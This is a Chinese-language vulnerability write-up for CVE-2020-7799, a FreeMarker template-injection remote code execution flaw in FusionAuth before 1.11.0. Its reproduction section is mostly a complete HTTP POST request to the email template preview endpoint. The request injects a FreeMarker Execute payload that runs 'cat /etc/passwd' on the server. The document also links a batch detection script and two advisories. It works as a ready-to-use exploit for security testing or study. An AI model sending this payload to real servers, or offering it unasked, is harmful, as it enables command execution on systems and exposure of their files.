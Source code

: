 （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞
=================================================================

一、漏洞简介
------------

在FusionAuth
1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页-\>设置-\>电子邮件模板）或主题（主页-\>设置-\>主题），可利用`freemarker.template.utility.Execute`执行任意命令

二、漏洞影响
------------

三、复现过程
------------

post提交

    POST /ajax/email/template/preview HTTP/1.1
    Host: www.0-sec.org:9011
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 796
    DNT: 1
    Connection: close
    Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
    Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

    primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}

![](./resource/(CVE-2020-7799)ApacheFreeMarker模板FusionAuth远程代码执行漏洞/media/rId24.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

参考链接
--------

> https://www.anquanke.com/vul/id/1910928
>
> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69
